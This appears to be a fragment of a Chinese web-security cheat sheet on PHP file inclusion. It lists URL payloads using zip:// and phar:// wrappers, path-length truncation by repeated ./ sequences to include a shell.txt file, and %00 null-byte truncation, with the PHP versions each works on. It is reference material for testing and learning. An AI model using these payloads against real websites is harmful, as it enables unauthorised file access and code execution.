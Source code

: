 ```
?file=zip://D:\phpstudy\www\a.zip%23a.txt
?file=phar://../../a.zip/a.txt
```

## 长度截断

`一共有三种：../     ./    和.(点号)`

Windows 256,Linux 4096

利用条件：php版本<5.2.8

只要./不断重复()，则后缀`/test/test.php`，在达到最大值后会被直接丢弃掉。

```
/?file=././..........././shell.txt
```

## 00截断

利用条件：

`php版本<5.3.4`

```
/?file=phpinfo.txt%00
```

